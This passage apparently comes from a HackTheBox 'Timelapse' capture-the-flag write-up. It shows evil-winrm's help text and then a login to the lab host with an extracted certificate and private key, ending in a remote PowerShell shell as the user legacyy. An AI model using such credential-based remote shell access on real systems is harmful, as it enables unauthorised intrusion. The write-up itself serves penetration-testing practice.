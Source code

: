 ```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ evil-winrm --help                                

Evil-WinRM shell v3.4

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required if not using kerberos)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -N, --no-rpath-completion        Disable remote path completion
    -l, --log                        Log the WinRM session
    -h, --help                       Display this help message
```

Just specify the argument then login

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ evil-winrm -S -c legacyy_dev_auth.crt -k legacyy_dev_auth.key -i timelapse.htb  

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami 
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```

